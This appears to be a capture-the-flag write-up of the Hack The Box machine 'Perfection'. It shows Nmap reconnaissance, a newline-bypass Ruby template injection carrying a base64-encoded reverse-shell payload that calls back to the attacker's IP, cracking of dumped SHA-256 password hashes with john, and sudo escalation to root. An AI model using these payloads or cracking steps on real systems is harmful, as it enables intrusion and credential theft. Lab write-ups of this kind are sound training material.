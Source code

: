 ```yaml
---
layout: post
author: Julio
date: 11-05-2024
title: Perfection Write-Up
---
```


# Perfection Write-Up

<div class="center"><img src="https://labs.hackthebox.com/storage/avatars/57fc0f58916cb3ed8e793db071769d70.png" width="350"></div>

## Introduction

## First Steps

<p>We will first run an Nmap scan to discover all open ports:</p>

```bash
sudo nmap -p- -T4 --open -Pn 10.10.11.253
Starting Nmap 7.95 ( https://nmap.org ) at 2024-05-11 17:06 CEST
Nmap scan report for 10.10.11.253
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 34.85 seconds

```

<p>Then, we can run Nmap with flags to get the services and their versions:</p>

```bash
sudo nmap -sC -sV -p22,80 10.10.11.253 --open -Pn
Starting Nmap 7.95 ( https://nmap.org ) at 2024-05-11 17:09 CEST
Nmap scan report for 10.10.11.253
Host is up (0.030s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.70 seconds

```

<p>We see that there's a website called "Weighted Grade Calculator". Once we access the website, we get to the following functionality:</p>

<div class="center"><img src="/assets/images/screenshots/htb-perfection-website1.png"></div>

## User Flag

<p>In Burp Suite, we can try</p>

```bash
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 202
Origin: http://10.10.11.253
Connection: close
Referer: http://10.10.11.253/weighted-grade-calc
Upgrade-Insecure-Requests: 1

category1={{7*7}}&grade1=80&weight1=20&category2=Category2&grade2=80&weight2=20&category3=Category3&grade3=80&weight3=20&category4=Category4&grade4=80&weight4=20&category5=Category5&grade5=80&weight5=20
```

<p>In the response</p>

```html
[...snip]
       <p>Please enter a maximum of five category names, your grade in them out of 100, and their weight. Enter "N/A" into the category field and 0 into the grade and weight fields if you are not using a row.</p>
      </form>
      Malicious input blocked
    </div>
  </div>
[...snip]
```

<p>However, if we</p>

```bash
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 202
Origin: http://10.10.11.253
Connection: close
Referer: http://10.10.11.253/weighted-grade-calc
Upgrade-Insecure-Requests: 1

category1=aa%0a{{7*7}}&grade1=80&weight1=20&category2=Category2&grade2=80&weight2=20&category3=Category3&grade3=80&weight3=20&category4=Category4&grade4=80&weight4=20&category5=Category5&grade5=80&weight5=20
```

<p>And</p>

```html
[...snip] Your total grade is 80%
<p>aa {{7*7}}: 16%</p>
[...snip]
```

<p>We saw a reference to Sinatra in the error page. we can try an ssti ruby payload: <custom-code><%= 7*7 %> </custom-code></p>

```html
     </form>
      Your total grade is 80%<p>aa
49 : 16%</p>
```

<p>And it worked. We can now geenrate a reverse shell payload with GoPariah and send it in the request</p>´

```bash
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 262
Origin: http://10.10.11.253
Connection: close
Referer: http://10.10.11.253/weighted-grade-calc
Upgrade-Insecure-Requests: 1

category1=aa%0a<%25%3d+system("curl+10.10.16.8:9001?p=$(echo+-n+cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE2LjgiLDkwMDEpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCIvYmluL2Jhc2giKSc%3d+|+base64+-d+|+bash)")+%25>&grade1=80&weight1=20&category2=Category2&grade2=80&weight2=20&category3=Category3&grade3=80&weight3=20&category4=Category4&grade4=80&weight4=20&category5=Category5&grade5=80&weight5=20
```

<p>WE will open a listener before sending it and we will get a connection back as "susan"</p>

```bash
nc -l 9001
susan@perfection:~/ruby_app$
```

<p>Once we are inside the machine, we can read the user flag</p>

## Root Flag

<p>Inside the machine, we can see that there's an email to susan:</p>

```bash
susan@perfection:~$ cat /var/spool/mail/susan
cat /var/spool/mail/susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

<p>Brute-forcing the password would probably be impossible. However, in the home directory we find a folder called "Migration" that contains a database</p>

```bash
susan@perfection:~/Migration$ ls
ls
pupilpath_credentials.db
susan@perfection:~/Migration$ file pupilpath_credentials.db
file pupilpath_credentials.db
pupilpath_credentials.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 6, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 6
```

<p>We can use sqlite3 to open it</p>

```bash
susan@perfection:~/Migration$ sqlite3 pupilpath_credentials.db
sqlite3 pupilpath_credentials.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
.tables
users
sqlite> select * from users;
select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

<p>we can then use john with a mask to achieve</p>

```bash
Tools/john/run/john --format=raw-sha256 --mask=susan_nasus_\?d\?d\?d\?d\?d\?d\?d\?d\?d hashcrackmeplz
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 ASIMD 4x])
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
susan_nasus_413759210 (?)
1g 0:00:00:06 DONE (2024-05-11 17:48) 0g/s 14980Kp/s 14980Kc/s 14980KC/s susan_nasus_692759210..susan_nasus_003759210
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

<p>Now that we know her password, we can</p>

```bash
susan@perfection:~/Migration$ sudo -l
sudo -l
[sudo] password for susan: susan_nasus_413759210

Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
susan@perfection:~/Migration$ sudo su
sudo su
root@perfection:/home/susan/Migration#
```

<p>We can now read the root flag.</p>

<p>That's all, folks!</p>
